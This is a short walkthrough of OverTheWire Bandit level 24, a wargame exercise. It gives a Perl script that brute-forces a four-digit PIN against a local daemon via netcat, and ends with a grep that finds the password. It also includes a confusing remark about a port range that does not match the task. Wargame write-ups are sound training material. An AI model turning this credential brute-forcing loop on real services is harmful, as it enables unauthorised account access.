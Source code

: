 # Over the Wire Bandit Walkthrough (Writeup): http://overthewire.org/wargames/bandit/

## Writeup

## Level 24
**Description**
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

**Solution**
I made a perl script that did the brute forcing for me and went to bed. When I woke up, there was the file. To save me some time, the port that I found was between 5650 and 6000.
 
```perl
#!/usr/bin/perl

for (my $i=0;$i<10000;$i++) {
        my $result = sprintf("%04d", $i);
        print $result;
        $command = "echo '<password> " . $result . "' | nc localhost 30002 >> result";
        system($command);
        }
```

All that was left was to cat the result file. I probably should have only printed the success to it. It ended up quite large and I had to grep the file for the password. I figured the word "is" would be near the password and it was.

```bash
bandit24@melinda:/tmp/meohmy$ cat result |grep is
The password of user bandit25 is <password>
```
